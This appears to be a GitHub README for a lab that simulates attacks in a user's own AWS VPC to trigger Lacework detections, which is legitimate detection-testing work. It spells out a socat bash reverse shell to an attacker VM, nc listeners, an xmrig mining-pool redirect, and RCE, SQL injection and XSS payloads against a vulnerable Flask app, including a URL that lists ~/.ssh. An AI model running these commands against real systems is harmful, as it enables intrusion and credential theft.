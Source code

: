 # 🧪 Welcome to the Attack Simulation Lab

This demo simulates various types of attacks within your **own VPC environment**. It includes Compromise Host (LW Composite alert), Remote Command Execution, XSS, IP Spoofing, and simulates known bad IP behavior. **This is only for educational and demonstration purposes only.**

![image](https://github.com/user-attachments/assets/10402fa0-0c8f-4911-a89b-4795f1ff6b81)


> **IMPORTANT:** All tests must be run within your **own VPC lab environment**. 

---

## 🛠️ Preparations

### Git Clone the Demo Simulator repo

```
git clone https://github.com/svuillaume/demo_simulator
```

### 1. Launch Two VMs with Public IP assigned
- **Attacker VM**
- **Victim VM**

### 2. Create an AWS ELB
- **Create a new Target Group and Register Attack VM**

Note: The above are intended for Lacework to detect these VM "Internet Exposure"

---

## Attacker VM Setup

1. **Install Docker**
2. **Deploy Lacework Agent**

---

## Victim VM Setup

1. **Install dependencies**
   ```
   sudo apt update
   sudo apt install python3 python3-pip -y
   pip3 install flask
   ```

2. **Set up the attack simulation script**
   ```
   chmod +x demo_simulator/lw_attack_sim.sh
   ```

3. **Update crypto pools in the script**  
   Use custom pool URLs:
   - `evil.v2.xmrig.com`
   - `donate.v2.xmrig.com`

4. **Edit `/etc/hosts` to redirect mining pools to attacker**
   ```plaintext
   127.0.0.1 localhost
   <Attacker-IP> donate.v2.xmrig.com
   ```

5. **Run the Flask application**
   ```
   python3 app.py
   ```
6. **Deploy Lacework Agent**
   ***Ideally enable AVD on the agent setup***   

---

# Running the Simulation

## On the Attacker VM (Open 2 Terminals or use screen)

1. **Create a persistent socket listener on Terminal 1 or screen 1:**

```
nc -k -l 3333 &
```

2. **Create a new socat tcp listener on tcp 5555**

```
socat file:`tty`,raw,echo=0 tcp-listen:5555
```
 
3. **Optionally run traffic simulation with k6 on Terminal 2 or screen 2:**

```
sudo docker run --rm -v $(pwd):/scripts grafana/k6 run /scripts/k6.js
```

### On the Victim VM

1. **Intiate an interactive Reverse Shell***

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.31.30.103:5555
```
---

# HOWTO run the Demo

**On the Attacker VM**

1. **Using the establisehd Reverse Shell Connection, Run the attack simulation script***

```
./demo_simulator/lw_attack_sim.sh
```

***Note: The script will run for 5 minutes*** 
***On the Attacker VM, you can run K6.js script to generate traffic from all over the world (this is using the x-forward-for header)***

---


# Owasp Attacks: These are for your own inspiration

### Remote Command Execution (RCE)

Submit OS commands via the vulnerable Flask app:

---

### SQLI - SQL Injection

http://<victim>:5000/user?id=123
http://<victim>:5000/user?id=1%20OR%201=1

### Reflected XSS

Test for reflected XSS using the greet endpoint:

- [Greet](http://<victim_IP>:5000/greet)


**Example:**

```
http://<victim_IP>:5000/greet?name=<script>alert('GotYou :)')</script>
```

### Fetch AWS secret

```
export AWS_SECRET_ACCESS_KEY="my_fake_secret_key"
python3 web.py
```

```
http://<victim>:5000/secret
```

### RCE - Remote Code Exec

```
http://<victim>:5000/cmd?exec=ls%20-l%20/
http://localhost:5000/cmd?exec=ll%20.ssh%20/"](http://3.96.142.208:5000/cmd?exec=ls%20-l%20~/.ssh
```

---

### Client IP Logging

Test client IP extraction:

- [Client IP](http://<victim_IP>:5000/client-ip)

**Spoof IP via curl:**

```
curl -H "X-Forwarded-For: 1.2.3.4" http://<victim_IP>:5000/client-ip
```

---

## Known Bad IPs for Simulation (Use with Caution)

| IP Address       | Description                                   |
|------------------|-----------------------------------------------|
| `45.227.253.55`  | Malware C2 - AbuseIPDB                        |
| `185.220.101.1`  | Tor exit node (flagged)                       |
| `1.3.3.7`        | Red team/meme IP                              |
| `222.186.30.50`  | Brute-force attacker (common honeypot source) |
| `89.248.167.131` | Blacklisted scanner (abuse reports)           |
| `23.129.64.50`   | Tor exit node - flagged in feeds              |

> ⚠️ **Do NOT scan or connect to these IPs from outside your VPC. Use only for simulation/logging tests.**

---

## Happy Demo!

Happy testing — use responsibly in isolated environments.

---

### Socat and NetCat Clean up

***On Attacker VM***

```
lsof -i -n -P | grep nc | awk '{print $2}' | sort -u | xargs -r kill -9
```

***On Victim VM***

```
lsof -i -n -P | grep socat | awk '{print $2}' | sort -u | xargs -r kill -9
ps -p 175610 -o etime,cmd
```
